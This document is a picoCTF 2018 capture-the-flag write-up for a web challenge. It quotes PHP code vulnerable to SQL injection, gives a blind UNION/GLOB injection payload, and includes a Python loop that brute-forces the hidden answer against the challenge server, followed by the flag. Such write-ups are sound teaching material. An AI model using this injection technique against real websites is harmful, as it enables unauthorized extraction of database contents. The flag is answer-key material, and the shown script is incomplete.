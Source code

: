 # A Simple Question
Points: 650

## Category
Web Exploitation

## Question
>There is a website running at http://2018shell1.picoctf.com:2644 ([link](http://2018shell1.picoctf.com:2644/)). Try to see if you can answer its question. 

### Hint
No Hints.

## Solution
Looking at the source code, we can see that this web application is vulnerable to SQL injections.

```php
include "config.php";
ini_set('error_reporting', E_ALL);
ini_set('display_errors', 'On');

$answer = $_POST["answer"];
$debug = $_POST["debug"];
$query = "SELECT * FROM answers WHERE answer='$answer'";
echo "<pre>";
echo "SQL query: ", htmlspecialchars($query), "\n";
echo "</pre>";
```

However, it doesn't appear to print anything out, but just tells you either you're wrong, you're close, or you get the flag

```php
$con = new SQLite3($database_file);
$result = $con->query($query);

$row = $result->fetchArray();
if($answer == $CANARY)  {
	echo "<h1>Perfect!</h1>";
	echo "<p>Your flag is: $FLAG</p>";
}
elseif ($row) {
	echo "<h1>You are so close.</h1>";
} else {
	echo "<h1>Wrong.</h1>";
}
```

Alright, let's create a small injection to slowly brute-force the answer.
`' UNION SELECT * FROM answers WHERE answer GLOB '<input>*'; --`

We use _GLOB_ instead of _LIKE_ because it's case-sensitive. Also we use _*_ or _%_ because _GLOB_ uses Unix wildcards.

We run the script and get the flag.

```python
final = ''
while True:
	for i in range(0x20, 0x7f):
		if i != 42 and i != 63: # Removes Unix wildcards '*' and '?'
			params = {
				'answer': "' UNION SELECT * FROM answers WHERE answer GLOB '{}{}*'; --".format(final, chr(i))
			}
			r = requests.post('http://2018shell1.picoctf.com:2644/answer2.php', data=params)
			res = r.text
			print res
```

Working solution [solve.py](solution/solve.py)

### Flag
`picoCTF{qu3stions_ar3_h4rd_28fc1206}`
